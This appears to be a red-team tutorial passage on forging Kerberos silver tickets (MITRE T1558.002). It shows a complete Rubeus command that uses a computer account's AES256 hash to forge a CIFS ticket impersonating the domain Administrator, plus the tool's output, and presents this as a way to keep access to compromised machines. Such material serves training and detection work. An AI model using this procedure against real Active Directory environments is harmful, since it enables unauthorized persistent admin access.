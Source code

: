 
Ticket forgery is a technique [[T1558](https://attack.mitre.org/techniques/T1558/)] where an adversary uses stolen secrets to create their own Kerberos tickets offline and inject them into a logon session for use, rather than requesting them legitimately from a KDC.

## Silver Tickets

A 'silver ticket' is a Kerberos service ticket that has been forged using a service's secret [T1558.002](https://attack.mitre.org/techniques/T1558/002/) and are used to target a specific service on a specific machine.

A common use-case for this is to maintain local admin access to machines after they've already been compromised.  For example, an adversary could acquire initial local admin access through an exploit but dumping the computer's secret (password hash) will allow them to forge tickets for services running under the context of that computer account that are useful for remote access (such as CIFS).  The adversary can now maintain remote access to this computer without relying on the original means by which they gained access.  The downside of this technique is that computer account secrets are automatically changed by Active Directory every 30 days by default.

Because these tickets are typically crafted offline, we can run a tool such as Rubeus or Mimikatz on our local computer.  In this example, we're using the AES256 hash of the lon-db-1 computer account to forge a ticket for CIFS, whilst impersonating the default domain administrator.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/lon-db-1 /aes256:bc6fd6e8519b52e09f60961beeee083a441c25908e30a6c29b124b516e06945f /user:Administrator /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /nowrap

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : CONTOSO.COM (CONTOSO)
[*] SID            : S-1-5-21-3926355307-1661546229-813047887
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : BC6FD6E8519B52E09F60961BEEEE083A441C25908E30A6C29B124B516E06945F
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : BC6FD6E8519B52E09F60961BEEEE083A441C25908E30A6C29B124B516E06945F
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : cifs
[*] Target         : lon-db-1

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'Administrator' to 'cifs/lon-db-1'

[*] AuthTime       : 04/03/2025 12:32:31
[*] StartTime      : 04/03/2025 12:32:31
[*] EndTime        : 04/03/2025 22:32:31
[*] RenewTill      : 11/03/2025 12:32:31

[*] base64(ticket.kirbi):

      doIFb[...snip...]kYi0x
```
